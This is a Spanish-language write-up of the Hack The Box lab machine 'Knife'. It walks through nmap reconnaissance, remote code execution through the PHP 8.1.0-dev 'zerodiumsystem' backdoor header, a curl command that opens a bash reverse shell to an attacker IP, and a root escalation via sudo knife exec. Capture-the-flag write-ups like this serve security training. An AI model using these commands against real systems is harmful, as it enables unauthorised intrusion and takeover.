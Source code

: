 ```yaml
---
title: Knife - HTB Writeup
date: 2023-09-08 03:20:00 +0800
categories: [Writeups, HTB]
tags: [Easy, Linux, Writeup]
image:
  path: /
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


**Knife** es una máquina de dificultad ```Easy``` en la plataforma **Hack The Box**

En esta máquina explotaremos una **vulnerabilidad** de la versión ```8.1.8-dev``` de ```PHP```

## **Reconocimiento**

Realizaremos un escaneo con ```nmap``` para descunrir puertos abiertos en la máquina

```bash
nmap -p- -sS --min-rate 5000 -vvv -n -Pn 10.10.10.242 -oG allPorts
```

![img](/assets/img/post/knife/d39b61c6-b6af-410d-ac30-6014585c55d5.png)

Vemos que están abiertos el puerto ```22``` y el ```80```

Vamos a realizar un escaneo de servicios y versiones sobre estos puertos:

```bash
nmap -sCV -p22,80 10.10.10.242 -oN versions
```

![img](/assets/img/post/knife/ba998012-681a-4d58-9014-5f242f7f0ec6.png)

Podemos ver que por el puerto ```22``` corre un servicio ```SSH``` y por el ```80``` un ```HTTP```

Con ```curl``` haremos una petición en la web a ver que nos devuelve:

```bash
curl -i 10.10.10.242
```

![img](/assets/img/post/knife/5ede2a37-310b-4750-856d-78e1fb163cbe.png)

## **Explotación**

Como podemos ver en la cabecera del ```output``` que nos devuelve el ```curl```, la web es lanzada por un servicio ```PHP/8.1.0-dev```

Si buscamos información sobre esta **versión** de ```PHP```, podemos ver que esta es vulnerable a un ```RCE``` *(Remote Command Execution)* utilizando la cabecera:

```bash
User-Agentt: zerodiumsystem(‘command’);
```

Podemos realizar una prueba para ver si el ```RCE``` da resultados:

```bash
curl -X GET "http://10.10.10.242/" -H "User-Agentt: zerodiumsystem('bash -c \"id\"');"
uid=1000(james) gid=1000(james) groups=1000(james)
```

Como podemos ver el ```RCE``` funciona, así que vamos a conseguir una ```reverse shell```:

```bash
curl -X GET "http://10.10.10.242/" -H "User-Agentt: zerodiumsystem('bash -c \"bash -i >& /dev/tcp/10.10.14.8/443 0>&1\"');"
```

En otra consola nos pondremos en escucha con ```nc``` por el puerto que hayamos indicado:

```bash
nc -lvnp 443
```

Y ya tendriamos acceso al sistema:

![img](/assets/img/post/knife/1e64cb21-0ac4-46e6-8a25-3190cb332811.png)

## **Escalada de Privilegios**

Para realizar la escalada ejecutaremos: 

```bash
sudo -l
```

para ver los ```binarios``` que podemos ejecutar como ```root```, los cuales en este caso son los siguientes:

![img](/assets/img/post/knife/f1d1188d-4b91-416c-a6b0-33458b263970.png)

Si ejecutamos ```/usr/bin/knife``` podemos ver que hace:

```bash
james@knife:/$ /usr/bin/knife -h                        
knife exec [SCRIPT] (options)
```

Usaremos esto para conseguir una consola como root, para ello ejecutaremos el siguiente comando:

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
id
uid=0(root) gid=0(root) groups=0(root)
```

Y ya tendremos acceso como root a la máquina

Espero que haya ayudado, se agradece cualquier tipo de comentario para mejorar poco a poco. Adios!